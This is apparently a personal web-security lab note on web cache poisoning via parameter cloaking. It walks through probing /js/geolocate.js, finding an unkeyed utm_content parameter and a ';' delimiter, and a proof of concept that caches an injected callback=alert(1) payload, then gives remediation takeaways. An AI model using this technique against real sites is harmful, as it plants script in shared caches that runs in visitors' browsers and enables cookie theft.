 # Note(Datetime, Name) : 2025-04-29 Parameter Cloaking

### Metodelogy
 1. Investigate the system to retrieve a list of features
 2. Discribe the feature and explain how it works
 3. List possible vulnerabilities and group by feature
 4. Proof of concept for possible vulnerabilities
 5. What is the impact of the vulnerabilities after the proof of concept ? 


# ==========================================================================================================

>

## feature:      
1.  access GET /  -> Home page 
### steps taken:
1. access /js/geolocate.js?callback=setCountryCookie ->  confirm the page use geolocate.js and is cacheable and olso  observed that the callback parameter is reflected
2. access /js/geolocate.js?callback=setCountryCookie&utm_content=payload -> utm_content is added inside page cookie
3. access /js/geolocate.js?callback%3dsetCountryCookie%26utm_content%3Dtest%26callback%3dtest -> recived response `missing parameter callback`
4. access  /js/geolocate.js?callback=setCountryCookie&utm_content=test=callback=test -> noting happened
5. access /js/geolocate.js?callback=setCountryCookie&utm_content&  -> confirm utm_content is an unkeyed cache parameter 
6. access /js/geolocate.js?callback=setCountryCookie&utm_content=test&callback=test&utm_content& -> cache miss occurred
7. access /js/geolocate.js?callback=setCountryCookie&utm_content;callback=test -> cache miss occurred but the callback was changed to test, meaning the server interprets ';' as delimiter 
8. access /js/geolocate.js?callback=setCountryCookie&utm_content=;callback=test -> the second parameter is unkeyed and cacheable, only the first callback is properly keyed


## vulnerabilities : 
1. web cache deception using UTM anlityics and the ';' separator for parameter parsing
## Proof of concept:
1. access  /js/geolocate.js?callback=setCountryCookie and ensure this page is cacheable
2. access  /js/geolocate.js?callback=setCountryCookie&utm_content=;callback=alert(1)  until got response header show   cache:miss 
3. access  /js/geolocate.js?callback=setCountryCookie&utm_content=;callback=alert(1)  until got response header show cache:hit
4. access  / home -> an alert popup is shown on browser
 

## impact
1. an Attacker can inject script through the url and store  it in  cache server, allowing  the attacker to execute  scripts on the victim browser, potentially leading  to cookie theft


## takeaways
1. ensure that every URL parameter is either properly for cache or if not needed ,  make the page not cacheable
2. always sanitize inputs from url,  enspecialy  if the inputs are reflected an can trigger direct script execution.


